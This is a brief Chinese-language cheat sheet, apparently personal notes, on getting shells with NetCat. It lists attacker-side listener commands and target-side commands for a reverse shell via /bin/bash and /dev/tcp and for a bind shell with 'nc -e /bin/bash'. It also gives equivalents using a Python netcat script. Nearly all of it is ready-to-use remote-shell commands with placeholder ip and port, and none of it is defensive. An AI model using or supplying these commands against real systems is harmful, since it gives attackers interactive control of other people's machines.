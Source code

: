 # NetCat

`nc`反弹shell

**反向**

攻击机 `nc -lvp port`

靶机 `/bin/bash -i >& /dev/tcp/ip/port 0>&1`

**正向**

攻击机 `nc ip port`

靶机 `nc -lvp -e /bin/bash`


`python nc`反弹shell
攻击机 `python3 netcat.py -t ip -p port`

靶机`python3 netcat.py -p port -lc`



